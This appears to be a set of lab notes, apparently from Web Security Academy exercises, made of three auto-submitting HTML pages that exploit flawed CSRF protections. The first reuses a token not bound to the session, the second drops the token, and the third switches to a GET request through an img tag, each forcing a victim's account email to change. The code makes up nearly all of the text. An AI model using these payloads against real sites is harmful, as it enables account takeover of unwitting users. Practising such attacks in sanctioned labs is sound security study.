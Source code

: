 CSRF TOKEN NOT TIED TO SINGLE SESSION COOKIE
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN IS VALIDATED ONLY IF PRESENT, IF OMITTED THERE IS NO CONTROL
```html
<html>
    <body>
        <form action="https://0ab000a5048fb98c8049676b00d00054.web-security-academy.net/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@yougothacked">
        <button type="submit">Update email</button>
    <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN CONTROL IS IMPLEMENTED ONLY ON POST REQUEST, SWITCHING TO GET METHOD AND STRIPPING THE CSRF PARAMETER FROM THE URL DOES BYPASS THE CONTROL
```html
<html>
    <body>
        <img src="https://0a68008a048967758029fd920081006d.web-security-academy.net/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
    </body>
</html>
```